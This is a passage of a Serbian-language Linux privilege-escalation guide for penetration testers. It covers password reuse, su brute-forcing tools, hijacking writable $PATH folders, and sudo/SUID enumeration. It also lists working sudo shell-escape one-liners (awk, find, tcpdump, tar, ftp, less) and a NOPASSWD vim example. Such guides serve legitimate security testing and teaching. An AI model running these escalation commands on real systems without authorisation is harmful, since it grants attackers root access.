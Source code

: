 ```bash
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

### Poznate lozinke

Ako **znate bilo koju lozinku** za okruženje, pokušajte se prijaviti kao svaki korisnik koristeći tu lozinku.

### Su Brute

Ako vam ne smeta pravljenje puno buke i `su` i `timeout` binarni fajlovi su prisutni na računaru, možete pokušati napasti korisnike korišćenjem [su-bruteforce](https://github.com/carlospolop/su-bruteforce).\
[**Linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) sa parametrom `-a` takođe pokušava napasti korisnike.

## Zloupotreba putanja sa dozvolom za pisanje

### $PATH

Ako otkrijete da možete **pisati unutar nekog foldera u $PATH-u**, možda ćete moći da dobijete privilegije tako što ćete **napraviti tajni ulaz unutar tog foldera za pisanje** sa imenom neke komande koja će biti izvršena od strane drugog korisnika (idealno root-a) i koja **nije učitana iz foldera koji se nalazi pre** vašeg foldera za pisanje u $PATH-u.

### SUDO i SUID

Možda vam je dozvoljeno izvršavanje neke komande koristeći sudo ili možda imaju postavljen suid bit. Proverite to koristeći:

```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```

Neki **neočekivani naredbe vam omogućavaju čitanje i/ili pisanje datoteka ili čak izvršavanje naredbe.** Na primer:

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```

### NOPASSWD

Konfiguracija sudo-a može omogućiti korisniku da izvrši određenu komandu sa privilegijama drugog korisnika, a da pritom ne mora uneti lozinku.

```
$ sudo -l
User demo may run the following commands on crashlab:
(root) NOPASSWD: /usr/bin/vim
```
